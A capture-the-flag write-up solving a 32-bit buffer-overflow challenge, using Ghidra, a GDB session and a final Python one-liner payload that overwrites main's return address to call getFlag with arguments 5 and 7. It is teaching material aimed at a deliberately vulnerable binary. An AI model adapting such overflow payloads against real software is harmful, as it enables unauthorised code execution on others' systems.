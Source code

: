 # Challenge

**Additional Information Needed** is very similar to [Echo](../Echo). It is an example of [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP) exploit crafting skill using buffer overflow in the program.

# Solution

### Disassembly

Using Ghidra we can see a very similar setup to **Echo**:
1. Use of `gets()` with a fixed-size buffer allocated on stack.
2. Function `getFlag` that prints flag.

![main function](AddInfoMain.png) ![getFlag function](AddInfoFlag.png)

The difference is that `getFlag()` does argument validation before printing the flag. Specifically, the arguments are two integer values, and for successful validation, their product must be 35. That means either 7 and 5, or -7 and -5.

Another difference is that this binary is compiled for 32-bit target. It means that function arguments are [passed using the stack](https://en.wikipedia.org/wiki/X86_calling_conventions#List_of_x86_calling_conventions). This is important, because we already know how to manipulate the stack. Therefore, we should be able to craft a payload that passes validation in `getFlag()`.

### Exploit

Using GDB to get address of main points of interest:
1. ESP at `main` entry -- to change return address with `getFlag` address.
2. Value of stack head (`*$esp`) before calling `gets` -- to know the buffer beginning address.
3. Addresses of `getFlag` arguments, when called from `main` ROP exploit (`set {int}$esp = getFlag` command below does that).

```
% gdb ./challenge.elf
<...>

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./challenge.elf...
(No debugging symbols found in ./challenge.elf)
(gdb) x/20i *main
   0x8049299 <main>:    push   %ebp
   0x804929a <main+1>:  mov    %esp,%ebp
   0x804929c <main+3>:  push   %ebx
   0x804929d <main+4>:  sub    $0x20,%esp
   0x80492a0 <main+7>:  call   0x8049100 <__x86.get_pc_thunk.bx>
   0x80492a5 <main+12>: add    $0x2d5b,%ebx
   0x80492ab <main+18>: call   0x80491c6 <buffer_init>
   0x80492b0 <main+23>: lea    -0x1fe4(%ebx),%eax
   0x80492b6 <main+29>: push   %eax
   0x80492b7 <main+30>: call   0x8049090 <puts@plt>
   0x80492bc <main+35>: add    $0x4,%esp
   0x80492bf <main+38>: lea    -0x1fbc(%ebx),%eax
   0x80492c5 <main+44>: push   %eax
   0x80492c6 <main+45>: call   0x8049090 <puts@plt>
   0x80492cb <main+50>: add    $0x4,%esp
   0x80492ce <main+53>: lea    -0x24(%ebp),%eax
   0x80492d1 <main+56>: push   %eax
   0x80492d2 <main+57>: call   0x8049060 <gets@plt>
   0x80492d7 <main+62>: add    $0x4,%esp
   0x80492da <main+65>: mov    $0x0,%eax
(gdb) br *main
Breakpoint 1 at 0x8049299
(gdb) br *main+57
Breakpoint 2 at 0x80492d2
(gdb) x/10i *getFlag
   0x8049214 <getFlag>: push   %ebp
   0x8049215 <getFlag+1>:       mov    %esp,%ebp
   0x8049217 <getFlag+3>:       push   %ebx
   0x8049218 <getFlag+4>:       sub    $0x34,%esp
   0x804921b <getFlag+7>:       call   0x8049100 <__x86.get_pc_thunk.bx>
   0x8049220 <getFlag+12>:      add    $0x2de0,%ebx
   0x8049226 <getFlag+18>:      mov    0x8(%ebp),%eax
   0x8049229 <getFlag+21>:      imul   0xc(%ebp),%eax
   0x804922d <getFlag+25>:      cmp    $0x23,%eax
   0x8049230 <getFlag+28>:      je     0x8049248 <getFlag+52>
(gdb) br *getFlag+21
Breakpoint 3 at 0x8049229
(gdb) r
<...>

Breakpoint 1, 0x08049299 in main ()
(gdb) p/x $esp
$1 = 0xffffd24c
(gdb) set {int}$esp = getFlag
(gdb) c
Continuing.
Welcome to this simple pwn challenge...
All you have to do is make a call to the `getFlag()` function. That's it!

Breakpoint 2, 0x080492d2 in main ()
(gdb) p/x $esp
$2 = 0xffffd220
(gdb) x/x $esp
0xffffd220:     0xffffd224
(gdb) c
Continuing.
asdfasdf (any text to return from gets())

Breakpoint 3, 0x08049229 in getFlag ()
(gdb) x/2i $pc
=> 0x8049229 <getFlag+21>:      imul   0xc(%ebp),%eax
   0x804922d <getFlag+25>:      cmp    $0x23,%eax
(gdb) p/x $ebp+0x8
$3 = 0xffffd254
(gdb) p/x $ebp+0xc
$4 = 0xffffd258
```

The exploit payload should look like this:
1. `0xffffd224` - buffer beginning
2. `0xffffd24c` - `main` return address, need to be replaced with `getFlag = 0x8049214`
3. `0xffffd254` - first argument for `getFlag`, for example 5
4. `0xffffd258` - second argument for `getFlag`, must be 7 to pass validation.

The layout is therefore as following: 40 random bytes + `0x8049214` little-endian + 4 random bytes + value `5` little-endian + value `7` little-endian.

## Final

```
% python3 -c "import sys, struct; sys.stdout.buffer.write(b'a' * 40 + struct.pack('<L', 0x8049214) + b'a' * 4 + struct.pack('<L', 5) + struct.pack('<L', 7))" | ./challenge.elf
Welcome to this simple pwn challenge...
All you have to do is make a call to the `getFlag()` function. That's it!
flag{myflag}

Segmentation fault (core dumped)
```